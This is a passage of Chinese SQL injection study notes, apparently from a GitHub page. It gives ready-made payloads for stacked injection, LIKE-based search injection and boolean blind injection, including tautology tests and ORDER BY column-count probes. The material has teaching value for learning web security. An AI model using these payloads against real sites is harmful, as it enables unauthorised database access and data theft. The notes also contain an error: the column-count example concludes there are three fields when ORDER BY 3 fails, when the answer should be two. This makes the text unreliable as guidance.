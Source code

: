## 4.堆叠注入

- 作用：与UNOIN作用一致，但是**没有**UNION的列数和类型一致的**限制**

  但是不会返回查询结果，所以大多用于盲注。

  ```SQL
  不支持 --Oracle
  QUERY-1-HERE; QUERY-2-HERE --Microsoft/PostgreSQL/MySQL
  ```

- 实战例子

  ```SQL
  1'; select * from user_system_data(自定义的表名) --
  #堆叠注入的使用
  #堆叠注入和联合注入功能一样，二选一即可
  ```

## 5.搜索型注入

- 进行数据搜索时，没有过滤搜索参数

  `Keywords=关键字`

- 实战例子：`LIKE`字段

  ```SQL
  #原本开发者写的语句：
  select * from 表名 where 字段 like '%关键字%'
  #我们的注入语句：
  select * from 表名 where 字段 like '%测试%' and '%1%'='%1%'
  ```

## 6.布尔盲注

> 官方解释：不会返回SQL查询的具体结果或者错误消息，但是如果查询返回任何行，应用程序会在页面中提示“welcome back”
>
> 自己心得：**正确会返回welcome back，但错误（语句查不到）时不会报错，只会和原页面无异。**
>
> **正确和错误（语句查不到）都是200。**

### 判断方法

> **与前面字符/数字型判断方法一样,以下复习一遍**

> 1. 判断注入点是否可注
>
>    > ``````sql
>    > 1' AND 1=1 #页面返回有数据
>    > 1' AND 1=2 #页面返回无数据
>    > 即：
>    > 1' and true  #有回显
>    > 1‘ and false  #无回显
>    > ``````
>
> 2. 判断字段数
>
>    > ``````sql
>    > 1' AND 1=1 ORDER BY 2 #页面返回有数据
>    > 1' AND 1=1 ORDER BY 3 #页面返回无数据
>    > #则当前的字段数是3
>    > ``````
